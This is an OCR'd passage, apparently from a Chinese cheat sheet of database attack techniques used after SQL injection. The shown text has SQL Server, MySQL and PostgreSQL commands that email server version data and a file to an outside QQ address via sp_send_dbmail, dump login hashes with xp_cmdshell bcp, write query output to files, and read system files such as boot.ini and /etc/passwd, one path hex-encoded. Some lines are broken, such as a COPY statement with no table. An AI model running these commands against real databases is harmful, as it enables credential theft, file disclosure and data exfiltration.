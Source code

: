 (2)发送邮件
declare @b varchar(2000);
select b=@@version;
exec msdb.dbo.sp_send_dbmail
@profile_name=’mypro’,
@recipients=’209115576@qq.com’,
@body=b,
@file_attachments=’c:\a.txt’;


十一．操作文件

(1)写文件

sql server
--bcp
>exec xp_cmdshell ‘bcp “select * from sys.sql_logins” queryout “c:\a.txt”  -T -c’

queryout:指定输出文件路径
-c:字符类型，-N：二进制类型
-T:受信任连接;-U -P:指定用户与密码连接

mysql
--outfile
>select table_name from information_schema.tables into outfile ‘c:\a.txt’;

postgresql
--copy
>copy (select * from temp) to ‘/tmp/a.txt’

(2)读文件

sql server
---bulk insert
>create table boof(line varchar(800));
>bulk insert boof from 'c:\boot.ini';
>select line from boof;

mysql
---load data infile
>create table authors(fname char(50),sname char(50),email char(100));
>load data infile ‘c:\a.txt’ into table authors fields terminated by ‘ ‘;
>select * from authors;

---load_file
>select load_file(‘c:\boot.ini’);
(参数需要用单引号，也可以用16进制)
>select load_file(0x633a2f626f6f742e696e69)


postgresql
--copy
>create table temp(name text);
>copy from ‘/etc/passwd’;
>select * from temp;



